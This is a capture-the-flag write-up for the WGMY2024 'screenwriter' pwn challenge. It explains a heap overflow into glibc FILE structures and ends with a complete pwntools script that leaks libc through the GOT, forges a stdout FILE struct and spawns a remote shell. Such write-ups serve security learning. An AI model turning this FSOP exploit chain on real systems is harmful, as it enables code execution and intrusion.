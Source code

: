 # WGMY2024

## Table of Contents
- [pwn/screenwriter](#pwnscreenwriter)
- [game/world 1](#gameworld-1)
- [game/world 2](#gameworld-2)
- [rev/stones](#revstones)
- [rev/sudoku](#revsudoku)

## Pwn/Screenwriter

Challenge Description : Use our software to craft your next blockbuster hit!

Challenge Summary : This challenge involves overwriting the FILE struct to gain arbitrary read and write

<details>
<summary>Source Code</summary>

```c
#include <stdio.h>
#include <stdbool.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>

void init(){
    setvbuf(stdin,0,2,0);
    setvbuf(stdout,0,2,0);
    return;
}

void menu(){
    puts("1. Set screenwriter name");
    puts("2. Write script");
    puts("3. View reference");
    puts("4. Exit");
}

int get_choice(){
    char tmp[5] = "";
    printf("Choice: ");
    fgets(tmp,4,stdin);
    return atoi(tmp);
}

void main(){
    init();
    char* name = malloc(0x28);
    FILE *ref_script = fopen("bee-movie.txt","r");
    FILE *own_script = fopen("script.txt","w");
    puts("Welcome to our latest screenwriting program!");
    
    while (true){
        int choice = 0;
        menu();

        switch (get_choice()) {
            case 1:
                printf("What's your name: ");
                read(0,name,0x280);
                break;        

            case 2:
                char own_buf[0x101] = "";
                printf("Your masterpiece: ");
                read(0,own_buf,0x100);
                fwrite(own_buf,1,0x100,own_script);
                break;

            case 3:
                char ref_buf[0x11] = "";
                memset(ref_buf,0,0x11);
                fread(ref_buf,1,0x10,ref_script);
                puts("From the reference:");
                puts(ref_buf);
                break;

            default:
                printf("Goodbye %s",name);
                exit(0);
        }
    }
}
```

</details>

Looking at the source code, we can see an obvious buffer overflow in option 1 which lets us overwrite data in the heap. However, it is not immediately clear what we are suppose to overwrite.

![image](https://github.com/user-attachments/assets/34f34683-5893-4583-8a32-cc9c67c230cc)

Looking at it in gdb, we can see our name chunk with size 0x31 at the top. After that, theres another chunk with size 0x1e1 followed by the value 0xfbad2488. When I saw this value, FSOP immediately came to mind. What is a FILE struct? Lets let @Ren explain 

![image](https://github.com/user-attachments/assets/9614f272-4910-4799-9d79-8f3a70ec1e0d)

You can take a look at the definition in [elixir bootlin](https://elixir.bootlin.com/linux/v6.12.6/source)

<details>
<summary>FILE Struct</summary>

```c
struct _IO_FILE
{
  int _flags;		/* High-order word is _IO_MAGIC; rest is flags. */

  /* The following pointers correspond to the C++ streambuf protocol. */
  char *_IO_read_ptr;	/* Current read pointer */
  char *_IO_read_end;	/* End of get area. */
  char *_IO_read_base;	/* Start of putback+get area. */
  char *_IO_write_base;	/* Start of put area. */
  char *_IO_write_ptr;	/* Current put pointer. */
  char *_IO_write_end;	/* End of put area. */
  char *_IO_buf_base;	/* Start of reserve area. */
  char *_IO_buf_end;	/* End of reserve area. */

  /* The following fields are used to support backing up and undo. */
  char *_IO_save_base; /* Pointer to start of non-current get area. */
  char *_IO_backup_base;  /* Pointer to first valid character of backup area */
  char *_IO_save_end; /* Pointer to end of non-current get area. */

  struct _IO_marker *_markers;

  struct _IO_FILE *_chain;

  int _fileno;
  int _flags2;
  __off_t _old_offset; /* This used to be _offset but it's too small.  */

  /* 1+column number of pbase(); 0 is unknown. */
  unsigned short _cur_column;
  signed char _vtable_offset;
  char _shortbuf[1];

  _IO_lock_t *_lock;
  __off64_t _offset;
  /* Wide character stream stuff.  */
  struct _IO_codecvt *_codecvt;
  struct _IO_wide_data *_wide_data;
  struct _IO_FILE *_freeres_list;
  void *_freeres_buf;
  size_t __pad5;
  int _mode;
  /* Make sure we don't get into trouble again.  */
  char _unused2[15 * sizeof (int) - 4 * sizeof (void *) - sizeof (size_t)];
};
```

</details>

The FILE Struct contains many fields which manage buffering.

### Analysis

![image](https://github.com/user-attachments/assets/03c4a9dd-ef7a-4ef6-a6df-42a5cf45204f)

After using option 3, we can see that the struct is now populated with values.

![image](https://github.com/user-attachments/assets/d9123403-d0ad-450e-b409-864d182c755a)

The contents of the bee script is read into 0x405690 which corresponds to the values in the struct above. Now, our goal will be to overwrite the pointers on the struct to trick it into thinking theres a buffer located somewhere else. Then we will use option 3 to leak this value. Our target will be the GOT entry of puts()

```
GOT protection: Full RelRO | GOT functions: 13

[0x403f88] puts@GLIBC_2.2.5  →  0x7ffff7c80ed0
```

```py
payload = b"A" * 0x28
payload += p64(0x1e1)
payload += p64(0xfbad2488)
payload += p64(0x403f88)
payload += p64(0x404f88)
payload += p64(0x403f88) * 5
payload += p64(0x404f88)
```

![image](https://github.com/user-attachments/assets/32f89dfc-24e7-4817-abcd-78f7ad8980bd)

Now that we know where is libc, maybe we can spawn a shell on the server. To do that, we need to be able to freely write anywhere in memory. Luckily for us, there is a 2nd file struct which lets us write data. Now, we should overwrite the struct fields to trick libc into thinking that the buffer is located somewhere else. But where should we write to? I used [angry-FSROP](https://blog.kylebot.net/2022/10/22/angry-FSROP/) to spawn shell on server. 

### Getting Arbitrary Write

```py
payload = b"A" * (0x198 + 0x70)
payload += p64(0x1e1)
payload += p64(0xfbad2c84)
payload += p64(stdout) 
payload += p64(0x0) * 5
payload += p64(stdout)
payload += p64(stdout + 0x1000)
```

![image](https://github.com/user-attachments/assets/52214079-50ad-4ed1-92da-b9907e244482)

Now, the buffer for our write is located at `_IO_2_1_stdout_`. The next thing to do would be to overwrite stdout with our payload.

![image](https://github.com/user-attachments/assets/ed3c8a0d-a18c-4f47-aca7-60b5718e81c0)

<details>
<summary>Solve Script</summary>

```py
#!/usr/bin/python
from pwn import *
import warnings
import time

warnings.filterwarnings("ignore",category=BytesWarning)

exe = context.binary = ELF('./chall_patched')
libc = exe.libc

host = "43.216.119.115"
port = 32782

gdb_script = '''

'''

r = lambda x: p.recv(x)
rl = lambda: p.recvline(keepends=False)
ru = lambda x: p.recvuntil(x, drop=True)
cl = lambda: p.clean(timeout=1)
s = lambda x: p.send(x)
sa = lambda x, y: p.sendafter(x, y)
sl = lambda x: p.sendline(x)
sla = lambda x, y: p.sendlineafter(x, y)
ia = lambda: p.interactive()
li = lambda s: log.info(s)
ls = lambda s: log.success(s)

def debug():
  gdb.attach(p)
  p.interactive()

# p = exe.process()
p = remote(host,port)
#p = gdb.debug('./', gdbscript = gdb_script)

sla(b"Choice: ", "3")

payload = b"A" * 0x28
payload += p64(0x1e1)
payload += p64(0xfbad2488)
payload += p64(0x403f88)
payload += p64(0x404f88)
payload += p64(0x403f88) * 5
payload += p64(0x404f88)

sla(b"Choice: ", "1")
s(payload)
sla(b"Choice: ", "3")

ru(b"reference:\n")
libc.address = u64(rl() + b"\x00\x00") - (0x7f9149c80ed0 - 0x00007f9149c00000)
environ = libc.sym["environ"]
li(f"Libc base @ {hex(libc.address)}")

stdout_lock = libc.address + 0x21ba70
stdout = libc.sym['_IO_2_1_stdout_']
fake_vtable = libc.sym['_IO_wfile_jumps']-0x18
gadget = libc.address + 0x0000000000163830

payload = b"A" * (0x198 + 0x70)
payload += p64(0x1e1)
payload += p64(0xfbad2c84)
payload += p64(stdout) 
payload += p64(0x0) * 5
payload += p64(stdout)
payload += p64(stdout + 0x1000)

print(hex(len(payload)))
sla(b"Choice: ", "1")
s(payload)

fake = FileStructure(0)
fake.flags = 0x3b01010101010101
fake._IO_read_end=libc.sym['system']
fake._IO_save_base = gadget
fake._IO_write_end=u64(b'/bin/sh\x00')
fake._lock=stdout_lock
fake._codecvt= stdout + 0xb8
fake._wide_data = stdout+0x200
fake.unknown2=p64(0)*2+p64(stdout+0x20)+p64(0)*3+p64(fake_vtable)

print(hex(len(bytes(fake))))
sla(b"Choice: ", "2")
s(bytes(fake))

# debug()

p.interactive()
```

</details>

## Game/World 1

## Game/World 2

## Rev/Stones

## Rev/Sudoku

